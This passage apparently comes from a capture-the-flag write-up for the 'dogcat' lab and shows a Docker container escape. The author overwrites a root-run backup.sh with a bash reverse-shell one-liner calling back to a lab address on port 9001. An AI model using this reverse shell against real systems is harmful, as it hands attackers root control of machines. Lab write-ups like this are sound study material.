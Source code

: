 ![Docker Files](/assets/images/thm_dogcat/thm_dogcat_docker.jpg)

## Escaping Docker Container

Upon further enumeration I found backup.sh script file located in the /opt/backup directory.
Writing the following reverse shell bash code to the backup.sh file results in a root shell outside of the container.
```
echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.11.11.11/9001 0>&1" >> backup.sh
```
